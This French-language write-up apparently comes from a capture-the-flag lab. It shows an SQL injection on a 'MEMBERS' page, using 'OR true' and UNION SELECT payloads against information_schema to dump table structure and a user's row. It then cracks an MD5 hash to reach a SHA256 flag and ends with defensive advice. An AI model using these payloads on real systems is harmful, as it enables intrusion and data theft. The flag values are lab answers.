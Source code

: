 # Injection SQL MEMBERzS

Aller dans l'onglet MEMBERS : http://IP/?page=member

L'injection SQL est une méthodes d'exploitation de faille de sécurité d'une application interagissant avec une base de données. Elle permet d'injecter dans la requête SQL en cours un morceau de requête non prévu par le système et pouvant en compromettre la sécurité.

En tapant la commande SQL : `1 OR true` pour afficher tous les membres

On peut voir un compte :

```
First name: Flag
Surname : GetThe
```

Nous voulons trouver toutes les tables et colonnes associer à la database, nous allons utiliser la commande SQL :

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

Structure des tables de la DB:

| Table name       | Column name                                                                     |
|------------------|---------------------------------------------------------------------------------|
| USERS            | user_id, first_name, last_name, town, country, planet, Commentaire, countersign |
| GUESTBOOK        | id_comment, comment, name                                                       |
| LIST_IMAGES      | id, url, title, comment                                                         |
| VOTE_DBS         | id_vote, vote, nb_vote, subject                                                 |


Nous allons donc récupérer toutes les informations de notre compte **Flag** :

Via la commande SQL : `1 UNION SELECT first_name,last_name FROM list_images`
On fera cela pour toutes les colonnes de la tables **USERS**.

```
user_id: 5
first_name: Flag
last_name: GetThe
town: 42
country: 42
planet: 42
Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

- On peut voir un code chiffré dans la colonne **countersign**.
- On va la décoder à l'aide du **site dcode**, c'est un chiffrement **MD5** (FortyTwo)
- Dans la colonne commentaire il est demandé de dechiffrer le mot de passe, de le mettre en minuscule et de le chiffrer en SHA256, ce qui donne fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5



### Comment protéger vos bases de données d’une injection SQL

- Vérifier la saisie utilisateur, les données remises devraient toujours être en accord avec le type de données attendu.
- Échapper les caractères spéciaux à l’aide de mysqli_real_escape_string() ou autres fonctions.
- Préférer l’utilisation de comptes utilisateurs à accès limité pour empêcher la modification ou suppression d’éléments de la base de données.
